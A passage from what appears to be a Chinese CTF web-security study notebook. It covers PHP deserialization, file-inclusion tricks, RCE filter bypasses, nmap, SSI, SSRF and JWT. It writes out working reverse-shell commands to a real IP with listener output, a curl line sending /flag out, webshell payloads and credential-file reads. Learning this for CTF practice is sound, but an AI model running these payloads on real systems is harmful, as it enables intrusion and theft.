    public $lover;

    public function __wakeup(){
        // syc != lover and md5(syc) === md5(lover), syc = 数组，lover = 数组
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) 
        && (sha1($this->syc) === sha1($this->lover)) ){
           
            if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}
if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}
```

>   这个乍看一眼在ctf的基础题目中非常常见，一般情况下只需要使用数组即可绕过。
>
>   但是这里是**在类里面**，我们当然不能这么做

>   这里的考点是`md5()`和`sha1()`可以对一个类进行hash，并且会触发这个类的 `__toString` 方法；
>
>   且当`eval()`函数传入一个类对象时，也会触发这个类里的 `__toString` 方法。

>   所以我们可以使用含有 `__toString` 方法的PHP内置类来绕过，
>
>   用的两个比较多的内置类就是 `Exception` 和 `Error` ，
>
>   他们之中有一个 `__toString` 方法，**当类被当做字符串处理时**，就会调用这个函数

```php
<?php
    $a = new Error("payload",1);$b = new Error("payload",2);
    echo $a;
    echo "\r\n\r\n";
    echo $b;

结果：
Error: payload in D:\program_files\phpstudy_pro\WWW\test\index.php:9 Stack trace: #0 {main}
Error: payload in D:\program_files\phpstudy_pro\WWW\test\index.php:9 Stack trace: #0 {main}
```

>   绕过`preg_match()`，因为括号被过滤，所有无法调用函数，这时可以使用到`include /flag`，将文件包含进来


## 10、反弹shell

```nginx
# 自己的服务器：
nc -lvnp 2333

# 攻击的服务器，101.34.32.151为自己服务器的ip地址
bash -i >& /dev/tcp/112.124.52.200/2333 0>&1

/**
	bash：是linux 的一个比较常见的shell，还有其他的如 sh、zsh、等
	-i：这个参数表示的是产生交互式的shell
	/dev/tcp/ip/port：访问这个文件的位置他是不存在的，但是如果你在一方监听端口的情况下对这个文件进行读写，就能实现与监听端口的服务器的socket通信
```

**使用案例**

```nginx

# 自己的服务器：
nc -lvnp 2333
# 攻击的服务器
echo 123 > /dev/tcp/112.124.52.200/20000
# 自己服务器会收到：
root@iZ2fxggemfwe2oZ:~# nc -lvnp 20000
Listening on [0.0.0.0] (family 0, port 20000)
Connection from 39.144.169.71 42973 received!
123

# 这样就可以和被攻击服务器进行通信
```

**使用案例**

```nginx
# 自己的服务器：
nc -lvnp 2333
# 攻击的服务器
cat > /dev/tcp/112.124.52.200/20000

# 连接成功后，就会形成，自己服务器上输入什么，另一个服务器就会显示什么
----------自己本机--------------
root@iZ2fxggemfwe2oZ:~# nc -lvnp 20000
Listening on [0.0.0.0] (family 0, port 20000)
Connection from 39.144.169.71 23190 received!
ls
王德发
我滴妈
----------另一个--------------
root@ubuntu:/home/peek# cat < /dev/tcp/112.124.52.200/20000
ls
王德发
我滴妈

```

**交互重定向**

```nginx
# 攻击机输入
root@ubuntu:/home/peek# bash -i > /dev/tcp/112.124.52.200/20000
dircolors: /root/dircolors: No such file or directory
root@ubuntu:/home/peek# ls
root@ubuntu:/home/peek# 

# 执行成功后任何在受害者机器上执行的指令都不会直接回显了，而是在攻击者机器上回显

# 本机显示
root@iZ2fxggemfwe2oZ:~# nc -lvnp 20000
Listening on [0.0.0.0] (family 0, port 20000)
Connection from 39.144.169.71 52132 received!
Desktop
Documents
Downloads
examples.desktop
gnome-terminal-colors-solarized
Music
Pictures
Public
snap
Templates
Videos

```

**实现对受害者的控制**

```nginx
# 本机
root@iZ2fxggemfwe2oZ:~# nc -lvnp 20000
Listening on [0.0.0.0] (family 0, port 20000)
Connection from 39.144.169.71 33358 received!
ls
cd home
ls 


# 受害机
root@ubuntu:/# bash -i < /dev/tcp/192.168.1.131/4444
dircolors: /root/dircolors: No such file or directory
root@ubuntu:/# ls
bin    home            lost+found  root        srv       var
boot   initrd.img      media       root.mysql  swapfile  vmlinuz
cdrom  initrd.img.old  mnt         run         sys       vmlinuz.old
dev    lib             opt         sbin        tmp
etc    lib64           proc        snap        usr
root@ubuntu:/# cd home
root@ubuntu:/home# ls
peek

```

**现在我们需要将两条指令结合起来**

```nginx
bash -i > /dev/tcp/112.124.52.200/20000 0>&1

# 这样就会形成，我们本机可以获取到受害机的命令执行结果
# 执行的结果会回显到我们本机上
root@iZ2fxggemfwe2oZ:~# nc -lvnp 20000
Listening on [0.0.0.0] (family 0, port 20000)
Connection from 39.144.169.71 2885 received!
ls
bin
boot
cdrom
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
root.mysql
run
sbin
snap
srv
swapfile
sys
tmp
usr
var
vmlinuz
vmlinuz.old
pwd
/
cd home

# 受害机
root@ubuntu:/# bash -i > /dev/tcp/112.124.52.200/20000 0>&1
dircolors: /root/dircolors: No such file or directory
root@ubuntu:/# ls
root@ubuntu:/# pwd
root@ubuntu:/# cd home
root@ubuntu:/home# 
 # 到这里唯一的缺点就是受害机还会显示命令执行
```

```nginx
# 解决办法就是使用如下命令:
bash -i > /dev/tcp/112.124.52.200/20000 0>&1 2>&10
或者：
bash -i >& /dev/tcp/112.124.52.200/20000 0>&1
bash%20-i%20>&%20/dev/tcp/112.124.52.200/20000%200>&1
<script src="http://112.124.52.200:9999/poc2.js"></script>
<script>alert(1)</script>
X-Requested-With
   
# 这样执行命令受害机就完全没有回显了
```

****

### curl命令

**读取文件**

```nginx
# 将http://ichunqiu.com中的flag文件发送到112.124.52.200:20000
curl http://ichunqiu.com -F file=@/flag -x 112.124.52.200:20000
```


## 12、文件包含

>   当存在以下没有任何过滤的文件包含时，可以尝试使用目录迭代获取flag，如：`../../../../../../flag`
>
>   **【[网鼎杯 2020 半决赛]AliceWebsite】**

```php
<?php
        $action = (isset($_GET['action']) ? $_GET['action'] : 'home.php');
        if (file_exists($action)) {
            include $action;
        } else {
            echo "File not found!";
        }
?>
```


### 1、include使用

-   判断方式
    -   在源码中发现include函数，可以尝试使用

```nginx
-- 在参数后面接上指定文件，然后查看页面是否发生变化
index.php?category=woofers/../flag

-- 如果flag还在更深一层，可以使用伪协议套一层进行获取flag的源码，其中woofers是可变的
php://filter/read=convert.base64-encode/woofers/resource=flag
```

### 2、php://filter文件包含读取文件

#### 1、base64方式读取文件

```js
// 这一种是指定读链的筛选列表
?file=php://filter/read=convert.base64-encode/resource=flflflflag.php
```


>   这是一种访问本地文件的协议
>
>   **常与include()相结合时，php://filter流会被当做PHP文件执行，**
>
>   ==当filter协议中的base64被过滤后可以使用rot13绕过==

-   条件：

    -   ==读取源码中include包含中的文件==

-   使用方式

    -   ```nginx
        -- 伪协议读取index.php  构造方法：
        ?file=php://filter/read=convert.base64-encode/resource=index.php
        php://filter/read=convert.base64-encode/resource=www.zip
        
        -- 伪协议嵌套，这样提交的参数既包含有woofers这个字符串，也不会影响正常的包含，得到Flag.php：
        php://filter/read=convert.base64-encode/woofers/resource=index
        ```

    -   ==使用时需要考虑后端是否会自动拼接后缀.php或者其他==

    -   ==执行后可得到index.php的base64加密的源码==

#### 2、iconv字符编码方式读取文件

```js
?file=php://filter/NewStar/read=convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
?file=php://filter/NewStar/read=convert.iconv.UCS-4LE.UCS-4BE/resource=flag.php

php://filter/NewStar/read=convert.iconv.ASCII.UCS-2BE/resource=flag.php

php://filter/NewStar/convert.iconv.utf-8.utf-7/resource=flag.php

php://filter//NewStar/read=convert.quoted-printable-encode/resource=flag.php
```


#### 3、rot13编码方式读取文件

**缺点：就是当服务器开启了短标签解析，一句话木马即使写入了，也不会被PHP解析。**

```js
payload=php://filter/NewStar/read=string.rot13/newstar/resource=flag.php
```

>   用**rot13**编码绕过。相比**base64**编码，**rot13**的绕过死亡之exit更加方便，因为不用考虑前面添加的内容是否可以用**base64**解码，也不需要计算可**base64**解码的字符数量。

-   **进阶利用**

    - 当有如下代码

        ```php
        <?php
        	$content = $_POST['content'];
        	file_put_contents($_GET['filename'], "<?php exit; ?>".$content);
        
        data://
        php:input
        
        ?>
            // 内容：允许写入文件，但是会在写入文件的字符串前添加exit命令
            // 分析代码，需要传入两个参数，POST：content，GET：filename
            // 对于filename可以通过php://filter协议来控制，最常用的方法是base64的方式将				content解码后传入、
            假设我们先随便传入一句话木马：
            ?filename=php://filter/convert.base64-decode/resource=1.php
        	POSTDATA: content=PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+
                
                然后打开文件会发现一堆乱码，原因是不仅我们的加密后的一句话木马进行了base64解码，而且前面的死亡之exit也进行了解码。
                base64编码中只包含64个可打印字符，而当PHP在解码base64时，遇到不在其中的字符时，会选择跳过这些字符，将有效的字符重新组成字符串进行解码。
                
                因此，对于死亡之exit中的代码，字符<、?、;、>、空格等字符不符合base64解码范围。最终解码符合要求的只有phpexit这7个字符，而base64在解码的时候，是4个字节一组，因此还少一个，所以我们将这一个手动添加上去。
        ```
    
    -   ==因此，对于死亡之exit中的代码，字符<、?、;、>、空格等字符不符合base64解码范围==


#### **4、strip_tags函数绕过exit**

**如果存在include函数要想到php://filter/**

```nginx
?filename=php://filter/string.strip_tags|convert.base64-decode/resource=1.php
POSTDATA: content=PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+
```

**通过strip_tags使PHP崩溃，然后趁机使用上传一个文件（files），然后回文件就会临时保存在【/tmp】目录下**

```nginx
?file=php://filter/string.strip_tags/resource=/etc/passwd
```


### 3、php://input协议 强等于绕过（===）

>   php://input，**需要allow_url_include=On**
>
>   **遇到file_get_contents（）要想到用php://input**

假设代码审计中遇到file_get_contents()函数，由于该函数的对象是数据流，需要读取文件

将file_get_contents()的对象赋值为`php://input`，从而将对象转为读取的数据

此时可以用post将file_get_contents()的对象赋值成需要的值，或执行需要的的php代码

```
 构造?file=php://input
 post data中输入：<?php system('dir');?>    //代码表示显示所有文件目录
 根据显示的文件目录直接进行访问（某txt或php文件），得到flag
```


-   构造：`?text=php://input`


### 4、[data:// 写入协议](https://da7uran0ir.github.io/2018/07/24/php%E6%94%AF%E6%8C%81%E7%9A%84%E5%8D%8F%E8%AE%AE/data%E5%8D%8F%E8%AE%AE/)


>   类似php://input，可以让用户来控制输入流，**用户输入的data://流会被当作PHP文件执行**
>
>   ==要求：allow_url_fopen=On,  allow_url_include=On==
>
>   **数据格式**
>
>   ==`data:[<mime type>][;charset=<charset>][;base64],<encoded data>`==
>
>   -   mime type：内容的展现方式
>
>   -   data：协议头，标识这个内容为一个 data URI 资源。
>
>   -   base64：编码设定，这是一个可选项
>
>   -   encoded data：它可以为以下类型
>
>       -   ```nginx
>                     
>           data:text/html;base64,<base64编码的HTML代码>
>           data:text/css,<CSS代码>
>           data:text/css;base64,<base64编码的CSS代码>
>           data:text/javascript,<Javascript代码>
>           data:text/javascript;base64,<base64编码的Javascript代码>
>           data:image/gif;base64,base64编码的gif图片数据
>           data:image/png;base64,base64编码的png图片数据
>           data:image/jpeg;base64,base64编码的jpeg图片数据
>           data:image/x-icon;base64,base64编码的icon图片数据
>           ```
>   
>   
>
>           -   charset：编码设置，默认编码是【charset=US-ASCII】数据部分的每个字符都会自动编码为 【%xx】
>    
>       -   ```nginx
>        data:text/html,你好 
>           // output: ä½ å¥½             ->使用默认的编码展示，故乱码
>               
>           data:text/html;charset=UTF-8,你好
>                                                                                                                                                                                                                                                   // output: 你好 -> 使用 UTF-8 展示
>               
>           data:text/html;charset=gbk,你好
>                                                                                                                                                                                                                                                   // output: 浣犲ソ -> 使用 gbk 展示（浏览器默认编码 UTF-8，故乱码）
>               
>           data:text/html;charset=UTF-8;base64,5L2g5aW9
>                                                                                                                                                                                                                                                   // output: 你好 -> UTF-8 编码，内容先使用 base64 解码，然后展示
>           ```
>   
>   

-   文件流写入：data://text/plain,

```nginx
案例：
从文件里读取字符串，还要和welcome to the zjctf相等
(file_get_contents($text,'r')==="welcome to the zjctfwelcome to the zjctf")

这种情况下就阔以使用data协议，构造payload
payload:?text=data://text/plain,welcome to the zjctf

构造方法：
1. ?file=data://text/plain,<?php phpinfo()?>    //执行phpinfo()
2. ?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=    //将命令进行base64加密，编码为“<?php phpinfo()?> ”的base64编码
3. ?file=data:text/plain,<?php phpinfo()?>    //去掉双斜杠
4. ?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
```

### 5、zip://

>   zip:// 可以访问压缩包里面的文件
>
>   ==zip:// 中只能传入**绝对路径**，要用#分隔压缩包和压缩包里的内容，#要用url编码%23代替==

```nginx
构造方法：
?file=zip://D:\file.zip%23flag.txt

D:\file.zip表示压缩包的绝对路径
后跟%23分割压缩包和压缩包中要访问的文件名
```


### 6、phar://

>   ==类似于zip://，相对路径和绝对路径都可以使用，不管后缀名是什么都会将文件当做压缩包解压==

```nginx
构造方法：
1. ?file=phar://D:\file.zip\flag.txt    //绝对路径
2. ?file=phar://file.zip\flag.txt    //相对路径
```

### 7、file://

-   **会应用用于ssrf服务端请求伪造，使用双重Url编码绕过**

    -   ```nginx
        file:///etc/passwd
        file:///flag
        # 读取环境变量
        file:///proc/1/environ
        # 读源码,如果存储过滤可使用双重URL编码
        file:///app/app.py
        ```

        

-   最终过滤了file协议可是使用:`../../../../flag`相对路径，**也可以使用filter协议**


## 13、无参数REC

>   `system、exec、shell_exec、passthu、popen、proc_popen`等函数可以执行系统命令

-   **代码执行漏洞主要**：eval()、assert()、preg_replace()、call_user_func()、array_map()以及动态函数中

    -   **eval()：** 函数把字符串按照 PHP 代码来计算，该字符串必须是合法的 PHP 代码，**且必须以分号结尾**

        -   ```nginx
            $code = $_GET['x']
            eval($code)
            127.0.0.1/?x=phpinfo();
            ```

            -   **绕过方式一般是取反，或者异或**

            -   ```php
                然后通过以下进行取反输出：
                	echo urlencode(~"system");  ==  %8C%86%8C%8B%9A%92
                	echo urlencode(~"ls /"); 	==  %93%8C%DF%D0
                然后再把输出的结果拼接：
                    (~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0)
                ```
            
                
            
        -   如果没有在代码字符串中调用 return 语句，则返回 NULL。如果代码中存在解析错误，则 eval() 函数返回 false。

    -    **assert()：**普通调用

        -   ```nginx
            //?a=phpinfo()   -- 普通调用
            <?php assert($_POST['a']);?>
            
            //?a=phpinfo() -- 函数支持动态调用
            $a = 'assert';
            $a($_POST['a']);
            
            -- php官方在php7中更改了 assert 函数。在php7.0.29之后的版本不支持动态调用
            $a = 'assert';
            $a(phpinfo());
            //成功执行phpinfo()
            
            ```

    -   **preg_replace()：**此函数的作用是对一个字符串进行正则处理

    -   

-   代码执行原理：

    -   应用有时需要调用一些执行系统命令的函数
    -   如PHP中的system、exec、assert、shell_exec、passthru、popen、proc_popen、escapeshellcmd、pcntl_exec等

    

-   **命令执行漏洞**

    -   原理：在操作系统中，`&、|、||`都可以作为命令连接符使用，用户通过浏览器提交执行命令，服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令

    -   系统命令执行函数：system()、passthru()、exec()、shell_exec()、popen()、proc_open()、pcntl_exec()

        -   ```nginx
            System()：system函数可以用来执行一个外部的应用程序并将相应的执行结果输出，函数原型如下：
            system(command,return_var)
            command是要执行的命令，return_var存放执行命令的执行后的状态值。
            ```

        -   ```nginx
            Exec()：exec函数可以用来执行一个外部的应用程序
            exec (command, output, return_var)
            command是要执行的命令，output是获得执行命令输出的每一行字符串，return_var存放执行命令后的状态值
            ```

        -   ```nginx
            Passthru()：passthru函数可以用来执行一个UNIX系统命令并显示原始的输出，
            	当UNIX系统命令的输出是二进制的数据，并且需要直接返回值给浏览器时，需要使用passthru函数来替代system与exec函数。Passthru函数原型如下：
            passthru (command, return_var)
            其中，command是要执行的命令，return_var存放执行命令后的状态值。
            ```

        -   ```nginx
            Shell_exec()：执行shell命令并返回输出的字符串，函数原型如下：
            shell_exec (command)
            其中，command是要执行的命令。
            ```

        -   ```nginx
            -- Windows系统命令拼接
            
            “|”:管道符，前面命令标准输出，后面命令的标准输入。例如：help |more
            “&” commandA & commandB 先运行命令A，然后运行命令B
            “||” commandA || commandB 运行命令A，如果失败则运行命令B
            “&&” commandA && commandB 运行命令A，如果成功则运行命令B
            
            -- 绕过空格
            $IFS$1　　　　　　//$1改成$加其他数字都行，都能当作空格来用
            {cat,flag.txt}
            cat${IFS}flag.txt
            cat$IFS$9flag.txt
            cat<flag.txt
            cat<>flag.txt
            ```

        -   

### 0、一些正则绕过方法

1.   `preg_match("/[A-Za-z0-9]+/")`

     ```nginx
     异或构造方式：
     	使用异或，在PHP中，两个字符串执行异或操作以后，得到的还是一个字符串。
     	所以，我们想得到a-z中某个字母，就找到某两个非字母、数字的字符，他们的异或结果是这个字母即可
     
     例如：
     A的ASCII值是65，对应的二进制值是01000001
     ?的ASCII值是63，对应的二进制值是00111111
     异或的二进制的值是10000000，对应的ASCII值是126，对应的字符串的值就是~了
     
     取反绕过：
     	如：urlencode(~'phpinfo')
     	对查询语句取反，然后编码。在编码前加上~进行取反，括号没有被过滤，不用取反
     	
     ```

     

一般有三种绕过姿势：

-   gettallheaders（）
-   get_defined_vars()
-   session_id()
-   [具体可以参考博客](https://blog.csdn.net/Manuffer/article/details/120738755)


>   highlight_file()			 函数对文件进行语法高亮显示，本函数是show_source() 的别名
>   next() 						 输出数组中的当前元素和下一个元素的值。
>   array_reverse() 			函数以相反的元素顺序返回数组。(主要是能返回值)
>   scandir() 					函数返回指定目录中的文件和目录的数组。
>   pos() 						输出数组中的当前元素的值。
>   localeconv() 				函数返回一个包含本地数字及货币格式信息的数组，该数组的第一个元素就是"."。

```nginx
(!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp']))
绕过payload
exp=highlight_file(next(array_reverse(scandir(pos(localeconv())))));

另一种
exp=highlight_file(next(array_reverse(scandir(pos(localeconv())))));


```

### 1、进制转换rce

==``base_convert('123',10,32)``：把10进制数字123转换为32进制==

```nginx
hex2bin()									把十六进制值转换为ASCII字符
bin2hex()									把ASCII字符转为十六进制值
base_convert()								在任意进制之间转换数字
dechex()									把十进制转换为十六进制
hexdec()									把十六进制转为十进制


条件：过滤了【[]、'、"、空格、`、\t、\n、\r】
?c=($_GET[a])($_GET[b])&a=system&b=cat /flag

-- []可替换成{}--
?c=($_GET{a})($_GET{b})&a=system&b=cat /flag

-- _GET和替换成hex2bin("5f474554")--
?c=($hex2bin("5f474554"){a})($hex2bin("5f474554"){b})&a=system&b=cat /flag

-- 当f字符会被检查，5f474554替换成八进制1598506324
?c=($hex2bin(dechex('1598506324')){a})($hex2bin(dechex('1598506324')){b})&a=system&b=cat /flag

-- 当hex2bin被过滤，在用base_convert进行转换，只要对应进制表中存在 hex2bin 这几个字符即可
-- 此时base_convert('37907361743',10,36)(dechex('1598506324')) == _GET
?c=($base_convert(37907361743,10,36)(dechex('1598506324')){a})($hex2bin(dechex('1598506324')){b})&a=system&b=cat /flag

```


## 14、空格和关键字绕过

传参不能有空格，如果有`cat`，将会被替换为`wctf2020`

直接用**`$IFS$9`**代替空格；用**`tac`**代替**`cat`**


## 15、NMAP扫描网络

-   nmap这款工具是用来扫描网络的，一般会拿来扫目标主机的端口或操作系统之类的

-   nmap可以将扫描后的结果保存为文件，这个文件格式甚至可以自己决定，进而可以尝试一句话木马

    -   >   ```
        >   当后台nmap指令为：nmap 127.0.0.1 -oX ./xml/????，可以使用以下报错注入，
        >   执行成功后会显示报错信息，但是文件已经 成功写入，直接访问然后出发后门
        >   ' <?php @eval($_POST["hack"]);?> -oG hack.php '
        >   
        >   ```

    -   nmap常用的命令

        ```nginx
        nmap -v 127.0.0.1							给出了远程机器更详细的信息，显示冗余信息(扫描细节)
        nmap -iL nmaptest.txt 						运行带“iL” 选项的nmap命令来扫描文件中列出的所有IP地址
        nmap 192.168.0.* --exclude 192.168.0.100	使用“-exclude”选项来排除某些你不想要扫描的主机
        nmap -A 192.168.0.101						启用操作系统和版本检测，脚本扫描和路由跟踪功能
        nmap -O 127.0.0.1							使用选项“-O”和“-osscan-guess”也帮助探测操作系统信息
        nmap -sA 192.168.0.101						扫描远程主机以探测该主机是否使用了包过滤器或防火墙
        nmap -PN 192.168.0.101						扫描主机检测其是否受到数据包过滤软件或防火墙的保护
        nmap -sP 192.168.0.*						找出网络中的在线主机
        nmap -F 192.168.0.101						快速扫描，仅扫描nmap-services文件中的端口而避开所有其它的端口
        nmap -f 192.168.96.4						使用小数据包发送，避免被识别出
        nmap -r 192.168.0.101						不会随机的选择端口扫描
        nmap -p 80,443 192.168.0.101				使用“-P”选项指定你想要扫描的端口
        nmap -sV 192.168.0.101						查找主机服务版本号
        nmap -PS 192.168.0.101						使用TCP ACK和TCP Syn方法来扫描远程主机（防火墙会阻断标ICMP包）
        nmap -Pn 192.168.96.4					  	目标机禁用ping，绕过ping扫描
        nmap -sn 192.168.96.4						对目标进行ping检测，不进行端口扫描（发送四种报文确定目标是否存活）
        nmap -sS 192.168.0.101						执行一次隐蔽的扫描，安全，快
        nmap -sT 192.168.0.101						使用TCP Syn扫描最常用的端口，不安全，慢
        nmap -sN 192.168.0.101						执行TCP空扫描以骗过防火墙
        nmap -sI 僵尸ip 目标ip						使用僵尸机对目标机发送数据包
        nmap 192.168.96.4 -oX myscan.xml			对扫描结果另存在myscan.xml
        nmap -T1~6 192.168.96.4						设置扫描速度，一般T4足够
        nmap –mtu <size> 192.168.96.4				发送的包大小,最大传输单元必须是8的整数
        nmap -D <假ip> 192.168.96.4					发送参杂着假ip的数据包检测
        继续中断扫描：
        	nmap –oG 1.txt –v 192.168.1.1/24			-oG将扫描结果保存为TXT，Ctrl+C中断扫描
        	Nmap –resume 1.txt							作用：继续扫描
        ```


## 16、SSI注入(shtml)，远程执行命令

```
<!--#exec cmd="命令"-->
例如：查看当前文件夹中所有文件可使用命令
<!--#exec cmd="ls"-->
```

>   shtml是一种基于SSI技术的文件。SSI 注入全称Server-Side Includes Injection，即服务端包含注入。
>
>   **简单来说就是能根据命令动态回显网页的某个部分**
>
>   SSI 是类似于 CGI，用于动态页面的指令。
>
>   SSI 注入允许远程在 Web 应用中注入脚本来执行代码。
>
>   SSI是嵌入HTML页面中的指令

-   条件
    -   **1.Web 服务器已支持SSI（服务器端包含）**
    -   **2.Web 应用程序未对对相关SSI关键字做过滤**
    -   **3.Web 应用程序在返回响应的HTML页面时，嵌入用户输入）**


## 17、序列化（php）

```nginx
漏洞类型：反序列化漏洞：@$ppp = unserialize($_GET["data"]);
执行漏洞：echo $b($a);，这说明b可以是函数名，a是参数
```

==php的特性，当序列化后对象的参数列表中成员个数和实际个数不符合时会绕过 __weakup()==

>   原理：
>
>   ==反序列化是一";}结束的，如果我们把";}带入需要反序列化的字符串中（除了结尾处），====就能让反序列化提前结束后面的内容丢弃==
>
>   ```php
>   如：
>   <?php
>      //$a = array('123', 'abc', 'defg');
>      //var_dump(serialize($a));
>      //"a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}"
>      $b = 'a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:5:"qwert";}";i:2;s:4:"defg";}';
>      var_dump(unserialize($b));
>   ?>
>   《运行结果》
>      array(3) { [0]=> string(3) "123" [1]=> string(3) "abc" [2]=> string(5) "qwert" } 
>   《功的反序列化出我们自己定义的内容，丢弃了原先的内容（i:2;s:4:"defg"）》
>   ```
>
>   

-   参数传递数组绕过字符串检测

    -   ==当一个正则表达式判断变量是否为字符串和限制他的长度等，可以使用传入参数为数组绕过长度判断，以继续向下执行==

        

-   反序列化字符逃逸


### 1、phar流反序列化

>   ==phar文件是php中类似java中jar的东西，包括所有的可执行、可访问的文件==
>
>   **PHP 5.3 或更高版本，那么Phar后缀文件是默认开启支持的**

#### 0、反序列化常用的魔术方法

```php
__wakeup() 		//执行unserialize()时，先会调用这个函数
__sleep() 		//执行serialize()时，先会调用这个函数
__destruct() 	//对象被销毁时触发
__call() 		//在对象上下文中调用不可访问的方法时触发
__callStatic()  //在静态上下文中调用不可访问的方法时触发
__get() 		//用于从不可访问的属性读取数据或者不存在这个键都会调用此方法
__set() 		//用于将数据写入不可访问的属性
__isset() 		//在不可访问的属性上调用isset()或empty()触发
__unset() 		//在不可访问的属性上使用unset()时触发
__toString() 	//把类当作字符串使用时触发
__invoke() 		//当尝试将对象调用为函数时触发
```

文件没有过滤phar流，直接调用file_exists函数，就可以猜测道思路应该就是phar的反序列化

#### 1、phar 文件格式

```php
phar 文件的表示，以 xxxxxx<?php xxx;__HALT__COMPILER();?> 为固定形式，
前面内容可以变，点必须 __HALT__COMPILER();?>结尾。
    例如：
    GIF89a<?php __HALT_COMPILER(); ?>
```

详细看这个：https://peekaboo.show/week4-unserializethree-200/

或者：[Week4 UnserializeThree 200](G:\各科笔记\web安全笔记\公开赛道\Week4\Week4 UnserializeThree 200.md)


### 2、pyYaml反序列

详情：[HDCTF 2023]YamiYami

## 18、SSRF服务端请求伪造

```java
-- 经验方式
    传入参数为：ip、url
```

==经常与各种伪协议搭配使用，比如file:///双重Url编码读取文件==

**SSRF攻击通常针对外部网络无法直接访问的内部系统。**

**SSRF可以对外网、服务器所在内网、本地进行端口扫描，攻击运行在内网或本地的应用，或者利用File协议读取本地文件**

```sql
以curl为例, 可以使用dict协议操作Redis、file协议读文件、gopher协议反弹Shell等功能
简单利用方式：
curl -vvv 'dict://127.0.0.1:6379/info'

curl -vvv 'file:///etc/passwd'

```

### 1、ip存在过滤

-   **可以改编ip的写法，将ip用别的编码方式显示，** **另外IP中的每一位，各个进制可以混用**

-   **访问改写后的IP地址时，Apache会报400 Bad Request，但Nginx、MySQL等其他服务仍能正常工作。**

    **另外，0.0.0.0这个IP可以直接访问到本地，也通常被正则过滤遗漏。**

    -   ```nginx
        如：192.168.0.1这个IP地址可以被改写成
        8进制格式：0300.0250.0.1
        16进制格式：0xC0.0xA8.0.1
        10进制整数格式：3232235521
        16进制整数格式：0xC0A80001
        合并后两位：1.1.278 / 1.1.755
        合并后三位：1.278 / 1.755 / 3.14159267
        ```

```c
X-Forwarded-For:127.0.0.1
```


### 2、 使用解析到内网的域名

>   如果服务端没有先解析IP再过滤内网地址，我们就可以使用localhost等解析到内网的域名。
>
>   另外 `xip.io` 提供了一个方便的服务，
>
>   这个网站的子域名会解析到对应的IP，
>
>   例如192.168.0.1.xip.io，解析到192.168.0.1。


### 3、利用解析URL所出现的问题

>   比如 `http://www.baidu.com@192.168.0.1/` 当后端程序通过不正确的正则表达式
>
>   （比如将http之后到com为止的字符内容，也就是www.baidu.com，认为是访问请求的host地址时）
>
>   对上述URL的内容进行解析的时候，很有可能会认为访问URL的host为www.baidu.com，
>
>   **而实际上这个URL所请求的内容都是192.168.0.1上的内容**。


## 19、pop类型漏洞


-   __invoke被自动调用的条件是类被当成一个函数被调用，故接着来寻找和函数调用有关的代码

-   **POP为面向属性编程，是==从现有的运行环境中寻找一系列代码或者指令调用，然后根据需要构成一组连续的调用链==**

-   解法

    -   首先观察代码，寻找出一条能获取flag的执行链，然后将其序列化并用url编码

        -   ```php
            <?php
            class Modifier {
                protected  $var='php://filter/read=convert.base64-encode/resource=flag.php';
            }
            class Show{
                public $source;
                public $str;
            }
            class Test{
                public $p;
            }
            //创建show对象，执行一次初始化函数，但此时source属性不是类的对象，因此未执行__toString函数
            $a= new Show();           
            //再次创建show对象，执行一次初始化函数，此时source属性是类的对象，因此执行__toString函数
            $a->source=new Show();    
             //给$a->source->str创建test对象，则$a->source->str->source属性不存在，执行__get函数
            $a->source->str=new Test();          
             //将Modifier对象给与test类的p属性
            $a->source->str->p=new Modifier();       
            echo urlencode(serialize($a));
            ?>
            ```


## 20、nginx

>   nginx重要文件的位置
>
>   -   配置文件存放目录：/etc/nginx
>   -   主配置文件：/etc/nginx/conf/nginx.conf
>   -   管理脚本：/usr/lib64/systemd/system/nginx.service
>   -   模块：/usr/lisb64/nginx/modules
>   -   应用程序：/usr/sbin/nginx
>   -   程序默认存放位置：/usr/share/nginx/html
>   -   日志默认存放位置：/var/log/nginx
>   -   配置文件目录为：/usr/local/nginx/conf/nginx.conf【flag位置】

### 1、Unicode中字符编码漏洞

>   在unicode中字符℀(U+2100)℆是(U+2106)，当IDNA处理此字符时，会将℀变成a/c，
>
>   因此当你访问此url时，**dns服务器会自动将url重定向到另一个网站**。
>
>   ==如果服务器引用前端url时，只对域名做了限制==，那么通过这种方法，我们就可以轻松绕过服务器对域名的限制了。
>
>   这也就是说我们传入的url为`http://evil.c℀.com`在经过上述处理过后便成为了`http://evil.ca/c.com`
>
>   


## 21、SSRF绕过方式

### 1、本地绕过方式

**攻击本机**

```
http://127.0.0.1:80
http://localhost:22
```

**利用@绕过**

```
http://example.com@127.0.0.1
#这里的example.com可以任意替换
```

**利用短地址绕过**

```
http://127.0.0.1  可以转换为  http://suo.im/5UHEvD
#短连接的转换网站有很多。http://tool.chinaz.com/tools/dwz.aspx
```

**利用句号代替点绕过**

```
127.0.0.1 转换为 127。0。0。1
```

**特殊域名绕过**

```
http://127.0.0.1.xip.io/
# 会自动解析到本地的127.0.0.1
```

**使用进制绕过，计入127.0.0.1**

```
8进制格式：0177.0.0.1
16进制格式：0x7F.0.0.1
10进制整数格式：2130706433  （转16进制，再转10进制）
16进制整数格式：0x7F000001
```

**特殊的省略模式**

```
如127.0.0.1可写为127.1
```


## 22、JWT和cookie伪造

### 0、解释(base64url加密)

-   JWT。全称JSON Web Token，是一个开放标准，定义的信息可以被验证和信任，类似于数字签名
    -   **一般应用在授权和信息交换的时候**

-   组成：三部分组成，header、payload、signature，以点【.】连接，如：xxxxx.yyyyy.zzzzz

    -   **header：**

        -   由两部分组成：token的类型和JWT算法名称（比如：HMAC SHA256或者RSA等等）

        -   然后，用Base64对这个JSON编码就得到JWT的第一部分

        -   ```nginx
            {
            	"alg":"HS256",
            	"typ":"JWT"
